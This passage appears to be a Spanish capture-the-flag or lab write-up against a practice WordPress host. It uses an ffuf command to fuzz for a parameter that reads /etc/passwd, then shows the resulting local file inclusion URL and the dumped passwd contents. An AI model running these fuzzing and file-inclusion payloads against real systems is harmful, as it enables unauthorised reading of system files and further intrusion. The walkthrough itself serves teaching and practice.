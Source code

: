 Nos encuentra una pagina llamada `index.php` pero nada mas, por lo que probaremos si hay algun parametro que funcione con ese archivo `.php`.

## Fuzz

```shell
ffuf -u http://<IP>/wordpress/index.php\?FUZZ\=/etc/passwd -w <WORDLIST> -fs 1048
```

Info:

```

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://172.23.0.2/wordpress/index.php?FUZZ=/etc/passwd
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 1048
________________________________________________

love                    [Status: 200, Size: 2327, Words: 190, Lines: 67, Duration: 1ms]
:: Progress: [20469/20469] :: Job [1/1] :: 3703 req/sec :: Duration: [0:00:21] :: Errors: 0 ::
```

Por lo que vemos encontramos un parametro vulnerable que puede leer el `passwd`, por lo que lo probaremos de la siguiente forma.

## Local File Inclusion (LFI)

```
URL = http://<IP>/wordpress/index.php?love=/etc/passwd
```

Info:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
```